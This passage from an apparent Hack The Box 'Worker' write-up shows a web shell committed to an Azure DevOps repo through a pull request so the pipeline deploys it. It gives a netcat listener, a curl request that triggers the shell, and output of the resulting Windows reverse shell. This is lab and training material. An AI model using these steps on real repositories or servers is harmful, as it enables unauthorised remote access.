 Now navigate to the repos/Spectral, click on the master drop-down menu and and click new branch

![](/assets/images/htb-writeup-worker/new_branch.png)


after that simply click upload file and select your shell of choice and then commit. 
Click on Create a Pull request, and then Create, approve and then complete. Tadaa! Now our shell is in the main repo. After 1 mins, the shell is gonna be uploaded into the website by azure pipelines.
Open two terminals

Shell A
```bash
nc -lnvp 4995
``

Shell B
```bash
curl spectral.worker.htb/shell.aspx
```

and we get a reverse shell
```bash
└─$ nc -lnvp 4995                                 
listening on [any] 4995 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.203] 50236
Spawn Shell...
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
